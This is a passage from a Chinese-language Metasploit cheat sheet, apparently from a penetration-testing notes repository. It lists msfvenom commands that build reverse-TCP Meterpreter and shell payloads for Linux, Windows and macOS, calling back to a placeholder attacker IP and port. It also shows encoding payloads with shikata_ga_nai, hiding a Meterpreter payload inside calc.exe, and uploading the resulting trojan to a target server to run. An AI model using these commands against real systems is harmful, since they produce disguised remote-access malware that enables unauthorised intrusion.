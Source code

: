 - **Linux Based Shellcode**

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

- **Windows Based Shellcode**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

- **Mac Based Shellcode**

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
Handlers
```

#### payload加编码

- **命令格式**

```shell
msfvenom -p <payload> <payload options> -a <arch> --platform <platform> -e <encoder option> -i <encoder times> -b <bad-chars> -n <nopsled> -f <format> -o <path>
```

- **常用编码**

```
x86/shikata_ga_nai
cmd/powershell_base64
```

- **例子**

```shell
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 -f exe > 1.exe
```

### 自选模块

- **生成执行计算器payload例子**

```shell
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > 1.exe    #calc.exe 计算器
```

### payload的坑

正常情况下，利用msfvenom生成的木马文件，可直接上传到目标服务器上运行（加权限）。但我自己遇到过一个坑，生成的文件内容有部分是无用的，会引起报错，如下图所示。

![Metasploit-1](../Tools/imgs/Metasploit-1.jpeg)
